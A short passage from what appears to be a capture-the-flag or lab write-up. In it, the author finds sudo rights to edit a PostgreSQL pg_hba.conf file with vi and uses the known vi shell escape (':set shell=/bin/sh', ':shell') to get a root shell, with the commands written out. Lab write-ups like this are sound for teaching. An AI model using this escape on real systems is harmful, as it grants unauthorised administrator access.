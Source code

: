 ![fail](/img/tier2/fail.png)

Looks like we can edit `pg_hba.conf` with `sudo` privs by using `vi`. So I tried the [basic payload](https://gtfobins.github.io/gtfobins/vi/#sudo) to get a shell. 

```shell {linenos=false}
$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

```{linenos=false}
(in vi)
:set shell=/bin/sh`

:shell
```
